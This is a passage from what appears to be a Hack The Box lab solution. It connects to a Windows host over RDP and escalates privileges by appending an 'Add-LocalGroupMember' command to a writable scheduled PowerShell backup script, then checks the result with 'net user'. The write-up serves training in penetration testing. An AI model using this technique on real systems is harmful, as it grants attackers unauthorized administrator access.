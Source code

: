 ```
[05:58:26:547] [11523:11524] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[05:58:26:547] [11523:11524] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.129.11.72:3389) 
[05:58:26:547] [11523:11524] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[05:58:26:547] [11523:11524] [ERROR][com.freerdp.crypto] - Common Name (CN):
[05:58:26:548] [11523:11524] [ERROR][com.freerdp.crypto] - 	WIN01
[05:58:26:548] [11523:11524] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.11.72:3389 (RDP-Server):
	Common Name: WIN01
	Subject:     CN = WIN01
	Issuer:      CN = WIN01
	Thumbprint:  ee:cc:0b:a1:94:aa:e5:b5:cf:86:62:bf:c8:e8:05:bc:af:62:8a:cd:4b:51:1b:03:17:2b:46:54:56:8b:01:2c
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Students will open PowerShell and will append a command to the `backupprep.ps1` PowerShell script located in the `C:\ProgramData\CorpBackup\Scripts` directory adding the user `john` to the local administrators' group (`Add-LocalGroupMember -Group 'Administrators' -Member 'WIN01\\john'`) at the end of the script based on the information they have gained from the previous section of having full access to the file and being executed every two minutes:

Code: powershell

```powershell
notepad C:\ProgramData\CorpBackup\Scripts\backupprep.ps1
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\john> notepad C:\ProgramData\CorpBackup\Scripts\backupprep.ps1
```

Students will wait two minutes and will sign out and reestablish the RDP session:

![[HTB Solutions/Others/z. images/e2ec7099b909e30d9026692786f7997f_MD5.jpg]]

Next, students will open a PowerShell terminal and confirm the addition to the local administrators group:

Code: powershell

```powershell
net user john
```

```
PS C:\Users\john> net user john

User name                    john
Full Name                    john
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2025 11:57:29 AM
Password expires             Never
Password changeable          2/23/2025 11:57:29 AM
```